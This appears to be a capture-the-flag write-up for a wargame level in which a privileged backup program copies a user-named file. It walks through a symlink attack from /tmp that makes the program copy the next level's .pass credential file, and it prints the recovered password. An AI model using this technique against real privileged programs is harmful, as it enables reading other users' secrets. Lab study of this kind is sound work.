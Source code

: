 
# Symbolic open

## Program summary
This program takes a file name as a parameter, opens a logs file **`pFVar3 = fopen("./backups/.log","w");`** , and the file passed in argv[1] **`__stream = fopen((char *)param_2[1],"r");`**.

Subsequently it will concatenate the string "./backups/" with our argv[1], and perform an open on it again **`__fd =  open((char  *)&local_78,0xc1,0x1b0);`**, what happens is that the first file will become the source of a file copy the one that has just been concatenated.


## Vulnerability

The vulnerability lies in the fact that the program has the necessary privileges to access the next level, in other words we can for example create a symbolic link to the **`.pass`** and pass this to it as a parameter.

Our difficulty lies in creating the right files in the right places, because if you notice it in the present folder it is impossible to create or modify them. This is not a problem, just place yourself in a folder like **`/tmp`**, in this we have the necessary rights, and the program will adapt to our current directory.

## Attack design
Tree of files :
```
/tmp
└── backups
	├── boom <- symbolic link to cat /home/users/level09/.pass
    └── backups
	    ├── EMPTY FOLDER
```
You do not need to create the file in **`./backups/backups`**, because as you can see it will be automatically generated with **O_CREAT**.
```
level08@OverRide:/tmp$ strace -e open /home/users/level08/level08 "backups/boom"
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
open("/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
open("./backups/.log", O_WRONLY|O_CREAT|O_TRUNC, 0666) = 3
open("backups/boom", O_RDONLY) = -1 EACCES (Permission denied)
ERROR: Failed to open backups/boom
```

```
/home/users/level08/level08 "backups/boom"
cat /tmp/backups/backups/boom
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

> Flag :  `fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S`
